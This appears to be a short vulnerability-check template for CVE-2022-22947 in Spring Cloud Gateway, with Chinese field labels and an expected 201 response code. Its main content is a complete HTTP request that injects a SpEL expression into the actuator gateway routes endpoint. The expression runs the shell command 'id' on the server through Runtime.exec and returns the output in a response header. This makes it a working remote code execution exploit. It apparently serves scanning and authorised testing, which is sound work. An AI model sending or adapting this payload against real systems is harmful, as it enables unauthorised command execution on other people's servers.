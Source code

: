 ﻿# CVE_2022_22947

> 更新时间：2023-12-04


> 验证脚本：HTTP

```
POST /actuator/gateway/routes/8Fn3ivs HTTP/1.1
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Connection: close
Content-Type: application/json

{"id": "8Fn3ivs", "filters": [{"name": "AddResponseHeader", "args": {"name": "Result", "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}}], "uri": "http://example.com"}
```

> 响应代码特征：201

> 响应内容特征：

> 上传文件定位：

> 验证文件来源：CVE_2022_22947
